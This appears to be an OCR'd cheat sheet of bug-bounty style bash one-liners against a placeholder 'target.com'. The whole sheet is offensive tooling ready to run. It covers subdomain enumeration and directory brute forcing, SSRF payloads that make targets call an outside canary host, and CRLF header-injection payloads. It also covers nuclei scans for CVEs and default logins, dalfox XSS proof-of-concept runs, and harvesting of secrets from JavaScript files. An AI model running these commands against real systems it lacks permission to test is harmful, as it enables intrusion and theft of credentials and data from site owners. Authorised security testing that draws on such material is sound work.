 ### Deep Directory Brute Force (Smart Recursive Finder)
```bash
subfinder -d target.com | httpx -silent | anew alive.txt && cat alive.txt | xargs -I{} gobuster dir -u {} -w big_wordlist.txt -t 50 -o gobuster_output.txt
```

### Blind SSRF Auto-Detection in All Parameters
```bash
cat urls.txt | gf ssrf | qsreplace 'http://canarytoken.com' | httpx -silent -mc 200 -fr 'canarytoken'
```

### Mega Wordlist Generator from Wayback + JS + HTML Comments + Robots.txt + Sitemap.xml
```bash
subfinder -d target.com | httpx -silent | anew alive.txt && cat alive.txt | hakrawler -subs -depth 2 | anew urls.txt && cat urls.txt | gf wordlist | anew wordlist.txt
```

### Full Sitemap & Robots Extraction Across Subdomains
```bash
subfinder -d target.com | httpx -silent -path-list <(echo -e "/robots.txt\n/sitemap.xml") -mc 200 | tee robots_sitemaps.txt
```

### CRLF Injection Full Auto Discovery & Exploit
```bash
cat urls.txt | gf crlf | qsreplace '%0d%0aTest-Header: InjectedValue' | httpx -silent -hdrs | tee crlf_vulns.txt
```

### CSP Analyzer Across All Hosts (Misconfig Finder)
```bash
cat alive.txt | httpx -silent -path / -mc 200 -hdrs | grep -i 'content-security-policy' | tee csp_misconfig.txt
```

### Full JS Endpoint Extraction + Sensitive Function Search (eval, document.write, etc.)
```bash
cat urls.txt | grep '\.js$' | xargs -I{} bash -c 'curl -s {} | grep -E -o "(http|https)://[^\" ]+" | anew js_endpoints.txt && curl -s {} | egrep -i "(document\.write|eval|innerHTML|fetch|XMLHttpRequest|localStorage|sessionStorage|cookie)" | tee -a sensitive_js.txt'
```

### Recon + Full Vuln Scan + CORS, Headers, CVE, Misconfig, Secrets — One Command to Rule Them All
```bash
subfinder -d target.com | httpx -silent -title -tech-detect -ports 80,443,8080,8443 | tee alive.txt && cat alive.txt | nuclei -silent -t cves/,misconfiguration/,exposures/,default-logins/,panels/ | tee findings.txt && cat alive.txt | hakrawler -subs -depth 3 | anew urls.txt && cat urls.txt | gf xss,sqli,lfi,ssrf | dalfox pipe --skip-bav --only-poc | tee vulns.txt && cat urls.txt | grep '\.js$' | xargs -I{} bash -c 'curl -s {} | tr -d "\r" | gf secrets' | tee secrets_found.txt
```
